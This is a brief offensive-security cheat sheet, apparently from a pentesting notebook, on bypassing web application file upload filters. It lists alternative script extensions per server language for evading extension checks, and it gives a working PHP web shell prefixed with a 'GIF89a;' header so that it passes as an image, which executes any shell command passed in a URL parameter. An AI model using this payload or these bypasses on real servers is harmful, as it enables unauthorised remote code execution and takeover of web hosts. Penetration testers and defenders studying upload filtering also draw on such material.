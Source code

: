 ```yaml
---
description: File Upload Bypass
---
```


# File Upload Bypass

File Upload Bypass allows attackers to upload malicious files to the web server, which can then be executed by other users or the server itself. The main goal is to bypass filters applied by the web app

## Bypass filters

**Its possible to bypass with the following extensions and we could try using upper case too**

| Language | Bypass |
| :--- | :--- |
| php | .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc |
| asp | .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml |
| perl | .pl, .pm, .cgi, .lib |
| jsp | .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action |
| Coldfusion | .cfm, .cfml, .cfc, .dbm |

## GIF89a; header <a id="gif-89-a-header"></a>

```php
GIF89a;
<?
system($_GET['cmd']);
?>
```

## References

* [https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)
* [https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/file-upload-bypass](https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/file-upload-bypass)

